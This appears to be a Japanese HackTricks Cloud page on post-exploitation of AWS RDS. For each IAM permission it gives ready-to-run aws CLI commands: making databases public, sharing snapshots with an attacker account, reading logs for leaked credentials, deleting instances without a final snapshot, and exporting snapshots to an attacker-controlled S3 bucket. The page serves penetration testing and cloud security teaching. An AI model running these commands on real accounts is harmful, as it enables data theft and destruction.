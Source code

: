 # AWS - RDS ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## RDS

詳細については、以下を確認してください：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

攻撃者が十分な権限を持っている場合、DBのスナップショットを作成し、そのスナップショットから公開アクセス可能なDBを作成することで、**DBを公開アクセス可能**にすることができます。
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

これらの権限を持つ攻撃者は、**DBのスナップショットを作成**し、それを**公開****可能**にすることができます。次に、彼はそのスナップショットから自分のアカウントにDBを作成することができます。

攻撃者が**`rds:CreateDBSnapshot`**を持っていない場合でも、他の作成されたスナップショットを**公開**にすることができます。

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 権限を持つ攻撃者は **RDS インスタンスのログファイルの一部をダウンロード** できます。機密データやアクセス資格情報が誤ってログに記録された場合、攻撃者はこの情報を利用して権限を昇格させたり、不正な操作を行ったりする可能性があります。

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**潜在的な影響**: 漏洩した資格情報を使用して、機密情報へのアクセスや不正な行動を行うことができます。

### `rds:DeleteDBInstance`

これらの権限を持つ攻撃者は、**既存のRDSインスタンスに対してDoS攻撃を行う**ことができます。

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**潜在的な影響**: 既存のRDSインスタンスの削除、およびデータの損失の可能性。

### `rds:StartExportTask`

{% hint style="info" %}
TODO: テスト
{% endhint %}

この権限を持つ攻撃者は、**RDSインスタンスのスナップショットをS3バケットにエクスポート**できます。攻撃者が宛先のS3バケットを制御している場合、エクスポートされたスナップショット内の機密データにアクセスできる可能性があります。

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**潜在的影響**: エクスポートされたスナップショット内の機密データへのアクセス。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
